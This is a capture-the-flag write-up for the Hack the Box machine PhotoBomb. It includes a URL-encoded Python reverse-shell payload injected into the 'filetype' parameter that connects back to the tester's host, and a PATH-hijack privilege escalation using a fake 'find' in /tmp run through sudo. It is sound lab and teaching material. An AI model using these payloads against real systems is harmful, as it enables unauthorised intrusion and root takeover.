```yaml
---
layout: post
title: WriteUp for PhotoBomb machine from Hack the Box
categories: [writeup]
tags: [HTB, Command injection, PATH abuse]
---
```


![](/assets/photobomb/Photobomb.png)

|||
-|-
**Machine** | PhotoBomb
**Vulnerability** | Command Injection
**Explanation** | If we append a system command to the `filetype` parameter in the post request to `/printer`, it will be executed.
**Privilege Escalation Vulnerability** | Writable PATH abuse
**Explanation** | We can run `/opt/cleanup.sh` as root without a password with the ability to change `PATH` environment variable.

# Enumeration

## nmap scan

Initial nmap scan revealed two open ports:

* `80/tcp` : nginx 1.18.0
* `22/tcp` : OpenSSH 8.2p1

```
$ nmap 10.10.11.182 -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-04 12:36 EDT
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.50 seconds
```

![](/assets/photobomb/01-nmap-version.png)

## Web enumeration

The web server contains the following page:

![](/assets/photobomb/02-port-80-page.png)

I got a basic auth prompt after clicking on `click here!` button.

![](/assets/photobomb/03-port-80-basic-auth.png)

The `Debugger` from the developer tools revealed some credentials `ph0t0:b0Mb!`.

![](/assets/photobomb/04-port-80-basic-auth-creds.png)

I used those credentials to login.

![](/assets/photobomb/05-port-80-basic-auth-login.png)

The login was successful, so I was redirected to `/printer`.

![](/assets/photobomb/06-port-80-printer.png)

I scrolled to the bottom of the page, and found a download button that downloaded the `selected image` with the `filetype` and `dimensions` I selected.

![](/assets/photobomb/07-port-80-img-download.png)

I used `burpsuite` to intersept the request after clicking the `Download` button.

![](/assets/photobomb/08-port-80-download-req-burp.png)

I thought about command injection, so I played arround with the parameters `photo`, `filetype`, and `dimensions`, using the repeater tool

![](/assets/photobomb/09-port-80-download-req-burp-action.png)

The `photo` and `dimensions` came up empty, but not the `filetype`.

What got my attention is the error message when I set an invalid filetype

![](/assets/photobomb/10-port-80-invalid-filetype.png)

and when I inject a command.

![](/assets/photobomb/11-port-80-command-exec-poc.png)

# Initial foothold

I sat up a `netcat` listener on port `1337`

```
$ nc -lnvp 1337
```

![](/assets/photobomb/12-nc-listener.png)

After that, I went back to Burpsuite and injected the following command into the `filetype` parameter to get a reverse shell.

```
python3+-c+'import+socket,os,pty%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.37",1337))%3bos.dup2(s.fileno(),0)%3bos.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bpty.spawn("/bin/sh")'
```
![](/assets/photobomb/13-payload-burp.png)

I got no response back, but whe I went to my listener I had a reverse shell as the `wizard` user.

![](/assets/photobomb/14-rev-shell.png)

I changed directory to `/home/wizard` and got the user flag

![](/assets/photobomb/15-user-flag.png)

# Privilege Escalation

I checked if this user can run commands as sudo.

```
$ sudo -l
```

![](/assets/photobomb/16-sudo-l.png)

I opened `/opt/cleanup.sh` to see what it does.

```
$ cd /opt
$ ls -l
$ cat cleanup.sh
```

![](/assets/photobomb/17-opt-cleanup-sh.png)

The script is owned by `root` and I don't have write permission over it, so I could not change its content.

From the `sudo -l` output, I knew that I can run `/opt/cleanup.sh` as `root` without a password, and can also set environment variables.

At the last line of `cleanup.sh`, the `find` command is executed.

I created a costum `find` in the `/tmp`

```
$ cd /tmp
$ echo 'bash -p' > find
$ chmod +x find
```

![](/assets/photobomb/18-setup-fake-find.png)

I ran `/opt/cleanup.sh` with sudo, adding `/tmp` at the beginning of `PATH` so the `find` I created will be used instead of the original.

```
$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

![](/assets/photobomb/19-root-shell.png)

After the execution I got a root shell.

I moved to `/root` and got the root flag.
